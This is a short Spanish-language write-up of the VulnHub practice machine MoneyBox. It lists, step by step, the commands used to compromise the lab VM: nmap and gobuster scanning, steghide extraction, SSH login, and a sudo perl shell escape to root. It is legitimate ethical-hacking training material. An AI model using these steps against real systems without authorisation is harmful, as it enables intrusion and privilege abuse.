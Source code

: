 # 💰 MoneyBox – VulnHub Writeup

**Autor:** Pxlymxrph  
**Dificultad:** Fácil  
**Objetivo:** Obtener acceso root y capturar las tres banderas

---

## 🧠 Descripción

MoneyBox es una máquina vulnerable de VulnHub diseñada para practicar técnicas de penetración en entornos Linux. Ideal para preparación practicar técnicas básicas de enumeración y escalada de privilegios.

---

## 🛠️ Herramientas Utilizadas

- **Nmap** – Escaneo de puertos y servicios  
- **Gobuster** – Fuerza bruta de directorios  
- **Steghide** – Extracción de información oculta en imágenes  
- **Hydra** – Fuerza bruta de contraseñas  
- **Netcat** – Shell reversa  
- **GTFOBins** – Escalación de privilegios

---

## 🔍 Pasos para la Explotación

### 1. Descubrimiento de la IP
```bash
sudo arp-scan -I eth0 --localnet --ignoredups
```

### 2. Escaneo de Puertos
```bash
nmap -sCV 192.168.1.78
```

### 3. Fuerza Bruta de Directorios
```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### 4. Análisis de la Página Web
- Accede a `http://192.168.1.78/blogs/`  
- Revisa el código fuente y busca pistas.  
- Descubrirás una clave secreta para usar con Steghide.

### 5. Extracción de Información Oculta
```bash
steghide extract -sf trytofind.jpg
cat data.txt
```

### 6. Acceso SSH
```bash
ssh renu@192.168.1.78
```

### 7. Escalación de Privilegios
```bash
sudo perl -e 'exec "/bin/sh";'
```

### 8. Obtención de la Bandera Root
- Localiza y lee `/root/root.txt`.

---

---

## 🏁 Conclusión

MoneyBox es un excelente laboratorio para principiantes en hacking ético. Te permite practicar **enumeración, explotación y escalación de privilegios** en Linux de manera estructurada y didáctica.
